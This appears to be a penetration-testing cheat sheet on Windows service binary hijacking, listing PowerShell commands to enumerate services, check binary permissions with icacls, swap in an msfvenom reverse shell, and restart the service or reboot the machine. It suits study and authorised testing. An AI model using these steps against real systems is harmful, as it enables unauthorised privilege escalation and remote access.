 # Service Binary Hijacking



To get a list of installed windows services:

* `services.msc`(GUI)
* `Get-Service` or `Get-CimInstance`
* `Winpeas or SharpUp (Automated)`

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```

Check for paths here and any unusual paths should be given extra attention.



Using icacls:

```powershell
icacls "C:\xampp\apache\bin\httpd.exe"
```

This will give us the permission we have over the service binary.

Replace the binary with msfvenom reverse shell.

Try to restart the service:

```powershell
net stop mysql
net start mysql
```

or

```powershell
sc.exe stop auditTracker
sc.exe start auditTracker
```



## Shutdown Privileges

We could reboot the machine if automatic startup:

```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
```

Check if the auto start is enabled

Check if we have SeShutdown Privileges using `whoami /priv`

```
SeShutDownPrivilege
```

Now to reboot:

```powershell
shutdown /r /t 0
```

